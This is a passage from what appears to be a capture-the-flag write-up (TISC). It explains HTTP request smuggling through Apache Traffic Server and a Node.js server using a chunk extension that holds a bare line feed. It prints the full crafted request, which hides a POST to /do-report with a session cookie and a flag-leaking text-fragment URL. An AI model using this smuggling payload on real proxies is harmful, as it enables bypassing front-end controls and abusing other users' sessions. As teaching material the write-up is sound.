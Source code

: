A chunk extension is used here: `3;\nxxx`. The issue is two-pronged:

1. ATS parses the LF (`\n`) as a line terminator (instead of the CRLF sequence) and forwards it.
2. The Node.js HTTP server does not check if the chunk extension contains the illegal LF character.

So ATS sees the following request:

```http
GET / HTTP/1.1
Host: localhost:8080
Transfer-Encoding: chunked

3;
xxx
139
0

POST /do-report HTTP/1.1
Host: localhost:8080
Content-Length: 103
Cookie: connect.sid=s%3A4Tp_E2HJcMliL0-HBIe2gRJe0STpIOZW.hoetvVdAqJdACwI4BwIrHCmQR1nPjgY2YOxQMbJsDmU
Content-Type: application/json

{"url":"http://localhost:8000/verify?token=TISC{c:n:9:4:i:7:c:n:e:m}#:~:text=TISC{1:3:3:7:l:3:4:k:1:a"}
0

```

Notice that here, the `POST /do-report HTTP/1.1` request is encapsulated as part of the chunked request body of the first request (and therefore not seen by ATS as a seperate request).

![1.png](1.png)
